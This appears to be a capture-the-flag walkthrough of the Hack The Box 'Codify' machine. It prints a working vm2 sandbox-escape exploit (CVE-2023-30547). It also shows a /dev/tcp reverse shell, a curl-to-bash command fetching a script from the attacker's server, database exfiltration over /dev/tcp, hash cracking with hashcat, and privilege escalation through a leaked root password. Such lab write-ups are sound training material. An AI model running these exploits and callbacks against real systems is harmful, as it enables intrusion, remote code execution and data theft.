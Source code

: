 *Add more details and put on resume*

```
nmap -sC -sV {victim ip}
```

I see ports 22, 80, and 3000 are open. When I visit port 80 I find the domain `codify.htb` and add the domain to the hosts file.

```
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
In the directory `/editor` there is a code editor which allows us to test NodeJS code

The code editor uses the open source library `vm2`, there is a vulnerability CVE-2023-30547, where attackers can raise a host exception that is not properly sanitized in handleException() function. By doing so, the attacker can escape the sandbox environment and execute arbitrary code on the host.

If we run the following code in the editor:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This executes the command `id`, which outputs:

```
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
I prepared a `rev.sh`, a reverse shell to initiate a callback to our local machine.

```
  echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > rev.sh
```
I run a web server to host the script:

```
python3 -m http.server 8081
```
And start a netcat listener:

```
nc -lnvp 4444
```

We edit the last line of the code on the web app to call the reverse shell.
```
c.constructor('return process')().mainModule.require('child_process').execSync('curl
http://10.10.14.99:8081/rev.sh|bash');
```
This gets us a shell on netcat, to get a better shell I ran `script /dev/null -c bash`.

Searching thru the web directories I found a SQLite database file in `var/www/contacts` directory. I transferred this file to my local box for more analysis.

On my local I ran, to listen:

```
nc -lnvp 2222 > tickets.db
```

Then sending the file to my local:

```
   cat tickets.db > /dev/tcp/10.10.14.99/2222
```

On my local I ran sqlite3 to analyze the file:

```
$ sqlite3 tickets.db

$ select * from users;
```
We get the user `joshua` and a hash, which I ran against hashcat to get the password `spongebob1`.

```
  hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

We can now ssh into `joshua` with those credentials. I found a user flag at `/home/joshua/user.txt`.

To find what files we can run as root I ran `sudo -l`, and joshua can run the file `/opt/scripts/mysql-backup.sh`. To get more analysis I ran the snooping tool `pspy64s`.

I downloaded the file locally and ran a web server in that directory:

```
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
$   python3 -m http.server 8082
```
From the victim's box I used `wget`:

```
$ wget http://10.10.14.99:8082/pspy64s
$ chmod +x pspy64s
$ ./pspy64s
```
From another shell on our victim's box, we run the file we found from running `sudo -l`:

```
sudo /opt/scripts/mysql-backup.sh
```
After watching `pspy64s` run after we executed the file I found the root password `kljh12k3jhaskjh12kjh3`.

I login and get the root flag:

```
$ su root
$ cat /root/root.txt
```













